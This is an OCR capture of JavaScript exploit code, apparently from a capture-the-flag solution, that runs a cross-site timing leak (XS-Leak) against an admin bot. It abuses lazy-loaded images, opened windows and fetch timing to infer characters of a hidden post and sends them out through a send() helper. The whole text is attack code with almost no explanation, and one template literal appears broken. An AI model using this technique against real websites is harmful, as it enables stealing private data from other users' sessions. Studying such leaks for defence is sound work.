 ```
      async function testChar(str) {
        return new Promise((resolve) => {
          /*
            For 3350, you need to test it on your local to get this number.
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          inp.value =
            str +
            '<br><br>' +
            Array.from({ length: 20 })
              .map((_, i) => `<img loading=lazy src=/?${i}>)
              .join("")
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
        })
      }

      async function run(str, resolve) {
        // if the request is not enough, we can send more by opening more window
        for (let i = 1; i <= 5; i++) {
          window.open(TARGET)
        }

        let t = 0
        const round = 30
        setTimeout(async () => {
          for (let i = 0; i < round; i++) {
            let s = performance.now()
            await fetch(TARGET + "/?test", {
              mode: "no-cors",
            }).catch((err) => 1)
            let end = performance.now()
            t += end - s
            console.log(end - s)
          }
          const avg = t / round
          send(str + "," + t + "," + "avg:" + avg)

          /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
          const isFound = t >= 1000
          if (isFound) {
            inp2.value = "0"
          } else {
            inp2.value = "1"
          }

          // remember to delete the post to not break our leak oracle
          f2.submit()
          setTimeout(() => {
            resolve(isFound)
          }, 200)
        }, 200)
      }
    </script>
  </body>
```